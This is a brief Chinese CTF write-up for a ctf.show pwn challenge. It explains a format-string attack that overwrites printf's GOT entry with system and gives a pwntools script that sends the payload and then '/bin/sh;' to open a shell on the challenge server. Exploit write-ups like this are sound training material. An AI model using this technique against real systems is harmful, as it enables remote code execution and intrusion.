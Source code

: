 # 挑战简介
好了，你已经学会1+1=2了，接下来继续加油吧

# 思路
简单的格式化字符串应用  

简单应用got,plt表,把printf的got改成system即可  

```
from pwn import *
from LibcSearcher import *
#context(arch = "amd64",os = 'linux',log_level = 'debug')

context(arch = "i386",os = 'linux',log_level = 'debug')

#io = process("./pwn")

io = remote('pwn.challenge.ctf.show',28194)

elf = ELF('D:\edge 下载\pwn')

print_got = elf.got['printf']
sys.plt = elf.plt['system']

offset = 6

payload = fmtstr_payload(offset, {print_got: sys.plt})

io.sendline(payload)

io.send("/bin/sh;")
io.interactive()
```
